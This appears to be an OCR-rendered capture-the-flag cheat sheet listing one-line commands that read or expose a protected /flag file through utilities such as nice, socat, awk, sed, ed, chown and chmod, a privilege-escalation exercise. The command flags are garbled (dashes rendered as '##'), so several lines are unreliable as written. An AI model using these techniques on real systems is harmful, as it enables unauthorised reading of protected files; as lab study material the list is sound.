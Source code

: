 ```
```
## nice
```
nice cat /flag
```
## timeout
```
timeout 0 cat /flag
```
## stdbuf
```
stdbuf ##i0 ##o0 ##e0 cat /flag
```
## setarch
```
setarch $(uname ##m) /bin/cat /flag
```
## watch
```
watch ##x cat /flag
```
## socat
```
socat ## EXEC:"cat /flag"
```
## whiptail
```
whiptail ####textbox /flag 20 60
```
## awk
```
awk 'BEGIN { while ((getline line < "/flag") > 0) print line }'
```
## sed
```
sed ##n 'p' /flag
```
## ed
```
ed /flag
,p
```
## chown
```
chown hacker /flag
cat /flag
```
## chmod 
```
chmod a+r /flag
```
## cp
```
cp /flag /dev/stdout
```